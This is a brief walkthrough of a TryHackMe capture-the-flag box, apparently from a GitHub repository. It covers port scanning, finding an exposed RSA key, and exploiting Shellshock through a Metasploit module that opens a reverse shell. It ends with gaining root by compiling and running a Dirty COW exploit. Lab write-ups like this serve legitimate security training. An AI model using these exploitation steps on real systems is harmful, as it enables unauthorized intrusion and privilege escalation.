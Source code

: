 # TryHackMe Box

## Recon

The nmap scan gave us the that there were only 2 ports open on this.\

```
ssh - 22
http - 80
```
running a gobuster scan on website we get that there are some interesting directories.\

One of them was `/backup` which gave me a rsa private key.
Another was `/cgi-bin`. So I checked that with nikto and turns out it vulnerable to shell-shock.

## Exploitation

search for shell-shock on metasploit.

```bash
use multi/http/apache_mod_cgi_bash_env_exec
set rhost $IP
set targeturi /cgi-bin/test.cgi
set lhost tun0
run
```

## Priv Esc

After getting a shell and not being able to find any priv esc method. I saw the ubuntu version.
it was 14.04 so we can use dirty cow to exploit it.

```bash
gcc dc.c -o dc -pthread
chmod +x dc
./dc
```

Start a python server and upload this to the machine and run it.\
We have root access now.